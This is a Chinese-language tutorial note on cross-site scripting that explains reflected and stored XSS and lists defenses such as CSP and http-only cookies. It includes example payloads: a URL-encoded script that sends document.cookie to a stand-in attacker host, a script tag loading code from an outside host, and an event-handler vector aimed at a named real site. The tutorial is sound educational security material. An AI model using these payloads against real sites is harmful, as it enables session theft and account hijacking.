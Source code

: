 ```yaml
---
title: 跨站脚本攻击 (XSS)
categories: Web 安全
tags: [web 安全]
date: 2021-01-14 15:42:00
---
```


# 跨站脚本攻击 (XSS)

跨站脚本攻击 XSS (Cross Site Scripts)

说明：攻击者盗取用户的身份信息（如Cookie）、导航到恶意网址、携带木马病毒等 原理：攻击者在网页中嵌入客户端脚本(如JavaScript), 用户浏览网页就会触发恶意脚本执行


### 1. 反射型XSS步骤

1. 用户正常登录Web应用程序，登录成功会得到一个会话信息的 `cookie`
2. 攻击者将含有攻击代码的URL发送给被攻击人，例：`http://fovweb.com/xss/message.php?send=%3Cscript%3Edocument.write(‘%3Cimg%20height=0%20width=0%20src=%22 http://hacker.fovweb.com/xss/cookie_save.php%3Fcookie=%3D’%20+%20encodeURL(document.cookie)%20+%20’%22/%3E’)%3C/script%3E`
3. 用户打开攻击者发送过来的 URL, Web 应用程序执行用户发出的请求，并将请求参数显示在页面中；
4. 请求参数中包含的 JavaScript 代码会被执行，用户的 cookie 信息将会被发送到攻击者；

**note:**
* 链接中的请求参数会被显示在页面中，如搜索关键字、表单输入框等
* 链接必须被用户点击才会触发
* 危害范围小，受害者人数较少
* 例子：`http://health.sohu.com/so/index.shtml?t=news&wd=%E6%84%9F%E5%86%92%27%22onmouseover=%22alert(document.cookie)%22`


### 2. 持久型 XSS 步骤

1. 攻击者向存在漏洞的网站注入恶意代码，如`http://a.com/a.jsp?name=xss<script src=http://b.com/b.js></script>`
2. 用户访问该网站会下载 js 文件，并执行里面的代码
3. js 可获取用户所有的所有信息（包括Cookie、Session等）并发送给攻击者
  
**note：**
* 攻击者提交的数据会被显示出来，并被所有人看到，如社区评论等
* 访问存在漏洞的网站就会触发
* 危害范围大，受害者人数较多


### 3. 防御措施
* 设置 Content-Security-Policy 头信息（HTTP 头信息、html 的 meta 标签），控制浏览器能够为指定的页面加载哪些资源
* 在服务器端设置 Cookie 为 `http-only`，浏览器会禁止 js 访问该 `Cookie`
* 输入检查，对用户提交的数据进行校验，对特殊字符进行编码和过滤（主要在后端）
* 输出检查，对渲染到 html 中的内容进行 htmlEncode（主要在前端）
* 针对不同的上下文调用不同的转义规则，如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等，所需要的转义规则不一致
* 利用模板引擎，避免内联事件，避免拼接 HTML

##### 参考
* [Content-Security-Policy文档](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy)
